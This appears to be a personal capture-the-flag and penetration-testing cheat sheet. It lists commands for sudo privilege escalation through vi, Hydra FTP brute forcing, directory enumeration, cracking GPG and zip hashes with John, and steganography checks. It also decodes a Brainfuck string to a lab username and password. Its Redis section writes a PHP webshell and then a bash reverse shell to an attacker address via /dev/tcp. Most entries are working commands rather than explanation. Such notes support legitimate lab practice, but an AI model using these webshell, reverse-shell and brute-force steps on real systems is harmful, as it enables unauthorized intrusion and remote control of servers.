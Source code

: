 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Gobuster basic command
````shell
gobuster dir -u http://10.10.70.124/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 60
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````

# Import a .asc key
- Once you get the key:
````shell
gpg --import key.asc

# If you don't have the creds, you can brute force it using gpg2john
gpg2john key.asc > hash.txt
# Then you crack it with john
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
# Now you do the import step, introduce the creds and after that do the decrypt step
gpg --decrypt credential.pgp
````

# Python3 remote http server
- Initiate it: `python3 -m http.server 8080`
- The on the target machine:
````shell
wget http://<attack-ip>:8080/file
````

# Login without password to FTP
- User:  `anonymous`

# Investigate image metadata (Stego)
- Use command `file image.png`
- Use command `exiftool image.png`
- Use command `xxd image.png`
- Use command `strings image.png`
- Use tool binwalk to search binary images for embedded files and executable code: `binwalk image.png`
	- To extract the file: `binwalk -e image.png`
- Use command: `steghide extract -sf image.png`

# Crack zip files
- First get the hash: `zip2john file.zip > hash`
- Then use command: `john --wordlist=/path/to/wordlist hash`

# Extract from cli
- Use command: `7z e file.zip`

# How to deal with a /.git/?
- Download the full repository: `wget --mirror http://<ip-target>/.git/`
- Once downloaded follow this steps:
	- Look at the commits: `git log --oneline`
	- Go down the history: `git checkout <commit> --force`
	- Now inspect the commit

# How to deal with a Redis database?
- Download redis-tools: `sudo apt install redis-tools`
- Use the following command to gather info: `info`
- Introduce a php RCE: 

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redis.php
OK
10.10.60.159:6379> set test "<?php phpinfo(); ?>"
OK
10.10.60.159:6379> save
OK
````
- Now in Firefox, navigate to `<target-ip>/redis.php`
- If it is shown the phpinfo() file, the try to run this to get a shell:

````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php system($_GET['cmd']); ?>"
OK
10.10.60.159:6379> save
OK
````

- Now on the web-nav put something like this: `view-source:http://10.10.60.159/redisshell.php?cmd=%20cat%20/etc/passwd`
- Now set up a listener and create a simple reverse php shell:
````shell
redis-cli -h 10.10.60.159
10.10.60.159:6379> config set dir /var/www/html
OK
10.10.60.159:6379> config set dbfilename redisshell.php
OK
10.10.60.159:6379> set test "<?php exec(\"/bin/bash -c 'bash -i > /dev/tcp/<attck-ip>/<port> 0>&1'\"); ?>"
OK
10.10.60.159:6379> save
OK
````

# Piet Esoteric Language
- This language is presented in images like this:
![](./img/PI3T.png)
- To decode this image content just follow these steps:
	- Download Gimp: `sudo apt install gimp`
	- Open the image wit Gimp and Export it as .ppm file: `Export as > .ppm`
	- Now download the Piet interpreter: 
	````shell
	sudo su
	git clone https://github.com/gleitz/npiet.git
	cd npiet
	./configure
	make
	````
	- Execute the image with the interpreter: `./npiet /path/to/the/image.ppm`

